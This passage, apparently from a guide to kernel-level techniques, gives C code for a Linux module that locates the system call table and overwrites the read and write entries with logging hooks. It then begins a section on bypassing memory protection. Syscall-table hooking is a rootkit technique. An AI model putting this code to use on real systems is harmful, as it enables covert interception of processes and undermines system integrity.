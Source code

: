 ```c

// Hooked system calls
asmlinkage long hooked_read(unsigned int fd, char __user *buf, size_t count, loff_t *pos) {
    // Intercept read operations
    if (is_target_process(current)) {
        // Modify or log the operation
        printk(KERN_INFO "KERNEL: Read intercepted from process %d\n", current->pid);
    }
    
    // Call original function
    return original_read(fd, buf, count, pos);
}

asmlinkage long hooked_write(unsigned int fd, const char __user *buf, size_t count, loff_t *pos) {
    // Intercept write operations
    if (is_target_process(current)) {
        // Modify or log the operation
        printk(KERN_INFO "KERNEL: Write intercepted from process %d\n", current->pid);
    }
    
    // Call original function
    return original_write(fd, buf, count, pos);
}

// Install hooks
static int install_syscall_hooks(void) {
    // Find system call table
    void **syscall_table = (void **)kallsyms_lookup_name("sys_call_table");
    if (!syscall_table) {
        printk(KERN_ERR "Failed to find sys_call_table\n");
        return -ENOENT;
    }
    
    // Save original functions
    original_read = (void *)syscall_table[__NR_read];
    original_write = (void *)syscall_table[__NR_write];
    
    // Install hooks
    syscall_table[__NR_read] = (void *)hooked_read;
    syscall_table[__NR_write] = (void *)hooked_write;
    
    printk(KERN_INFO "System call hooks installed\n");
    return 0;
}
```

### 2. **Memory Protection Bypass**

#### Concept
Bypass memory protection mechanisms to read and write protected memory regions.
